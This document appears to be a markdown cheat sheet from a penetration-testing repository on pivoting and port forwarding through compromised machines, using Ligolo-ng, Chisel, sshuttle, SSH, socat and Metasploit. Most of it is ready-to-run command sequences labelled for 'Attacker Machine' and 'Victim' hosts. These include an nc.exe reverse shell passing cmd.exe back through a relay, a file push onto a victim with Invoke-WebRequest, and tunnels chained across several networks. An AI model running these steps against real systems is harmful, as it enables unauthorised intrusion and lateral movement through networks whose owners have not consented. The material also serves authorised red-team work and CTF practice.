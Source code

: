 # Pivot 

Here we will look at some ways we can use to pivot within a network and thus be able to jump to other machines.

![Pivot Example](pivot1.jpg)

## Ligolo-ng

**Network 1**
````
- Attacker Machine -
$ ./server -selfcert
$ sudo ip tuntap add user kali mode tun <ligolo>
$ sudo ip link set <ligolo> up

- Victim 1 (PC 1) -
./agent -connect <IP-Attacker>:11601 -ignore-cert

- Attacker Machine -
(Ligolo): Type session and select the <session1>
(Ligolo): Type ifconfig to see the IP of Network 1
$ sudo ip route add <IP-Network>/<Subnet> dev <ligolo1>
(Ligolo): Start
````

**Network 2**
````
- Attacker Machine -
$ sudo ip tuntap add user kali mode tun <ligolo-double>
$ sudo ip link set <ligolo-double> up
On <session1> (Ligolo): listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp

- Victim 2 (PC 2) -
> agent.exe -connect <IP-Victim1(PC1)>:11601 -ignore-cert

- Attacker Machine -
(Ligolo): Type session and select the <session2>
(Ligolo): Type ifconfig to see the IP of Network 2
$ sudo ip route add <IP-Network>/<Subnet> dev <ligolo-double>
On <session1> (Ligolo2): tunnel_start --tun ligolo-double
````

**Network 3**
````
- Attacker Machine -
$ sudo ip tuntap add user kali mode tun <ligolo-triple>
$ sudo ip link set <ligolo-triple> up
On <session2> (Ligolo): listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp

- Victim 3 (PC 3) -
> agent.exe -connect <IP-Victim2(PC2)>:11601 -ignore-cert (IP of Second Machine)

- Attacker Machine -
(Ligolo): Type session and select the <session3>
(Ligolo): Type ifconfig to see the IP of Network 3
$ sudo ip route add <IP-Network>/<Subnet> dev <ligolo-triple>
On <session3> (Ligolo): tunnel_start --tun ligolo-triple
````

The process is the same for other networks.

**Reverse Shell and Transfer Files**

The process we are going to see here can be applied to any machine on any network.
Imagine that we want to obtain a reverse shell from Victim 3 (PC3).
````
- Attacker Machine -
$ nc -lvp <port-reverse>
On <session2> (Ligolo): listener_add --addr 0.0.0.0:<port-reverse> --to 127.0.0.1:<port-reverse> --tcp

- Victim 3 (PC 3) -
nc.exe <IP-Victim2(PC2)> <port-reverse> -e cmd.exe 
````

Imagine you want to transfer a file from the Attacker-Machine to Victim 4 (PC4).
````
- Attacker Machine -
$ python3 -m http.server <port-server>
On <session3> (Ligolo): listener_add --addr 0.0.0.0:<port-server> --to 127.0.0.1:<port-server> --tcp

- Victim 4 (PC 4) -
> Invoke-WebRequest -Uri http://<IP-Victim3(PC3)>:<port-server>/<file> -OutFile <file>
````

## Chisel 

We can also do this with chisel using socks5.
````
- Attacker Machine -
$ ./chisel server -v -p <PORT> --reverse
$ ./chisel server -v --reverse

- Victim 1 (PC 1) -
> chisel_windows.exe client <IP-Attacker>:<PORT> R:socks

- Attacker Machine -
$ edit /etc/proxychains.conf -> sock5 (127.0.0.1 1080)
$ proxychains ping <Netowrk1-Machines>

Tip:
$ proxychains /bin/bash
Everything done within this shell automatically goes through proxychains and the tunnel created.
You no longer need to add proxychains at the beginning.
````

## SSH Pivoting with Sshuttle
````
$ sudo apt-get install sshuttle
$ sudo sshuttle -r <user>@<IP-Victim1> <IP-Network1>/<subnet> -v 
````
With this command, sshuttle creates an entry in our iptables to redirect all traffic to the <IP-Network1>/<subnet> network through the pivot host.

# Port Forwarding

The concept of “Port Forwarding” is the forwarding of ports, that is, when we receive a connection on a specific port, we forward that connection to another port on a specific host.

## Chisel

Attacker Machine
````
$ ./chisel server -p 8000 --reverse
$ ./chisel server --reverse
````
Local PortForwarding (Victim Host)
````
> chisel client <IP-Attcker>:<Port> R:<PortForward_Attacker>:127.0.0.1:<PortForward_Victim>
````
Remote PortForwarding (Victim Host - Internal Network)
````
> chisel client <IP-Attcker>:<Port> R:<PortForward_Attacker>:<IP-InternalNetworkHost>:<PortForward_InternalNetworkHost>
````

## SSH

Local Port Forwarding
````
$ ssh -N -L <IP-Interface(Optional):<Port-Attacker>:<IP-Victim>:<Port-Victim> <user>@<IP-Victim>
$ ssh -N -L <Port-Attacker>:<IP-Victim>:<Port-Victim> <user>@<IP-Victim>
$ ssh -L <IP-Interface(Optional):<Port-Attacker>:<IP-Victim>:<Port-Victim> <user>@<IP-Victim>
$ ssh -L <Port-Attacker>:<IP-Victim>:<Port-Victim> <user>@<IP-Victim>
$ ssh -L 1234:127.0.0.1:1234 <user>@<IP-Victim>
$ ssh -L 1234:<IP-InternalNetworkHost>:1234 <user>@<IP-Victim>
````
Remote Port Forwarding
````
$ ssh -N -R <IP-VictimSSH>:<Port-VictimSSH>:<IP-InternalNetworkHost>:<Port-Victim> <user>@<IP-Victim>
$ ssh -N -R 192.168.67.1:4445:192.168.67.128:445 user@192.168.67.1
````
The -N can be omitted, as it doesn't enable ssh command execution, it's there to be useful when forwarding ports.

## Socat
````
$ socat TCP-LISTEN:[victim_port],fork,reuseaddr TCP:[redirect_ip]:[exposed_port]
````

## Metasploit

In this case, you need the meterpreter shell
````
portfwd add –l <local_port_attacker> –p <port_victim> –r <target_host>
````
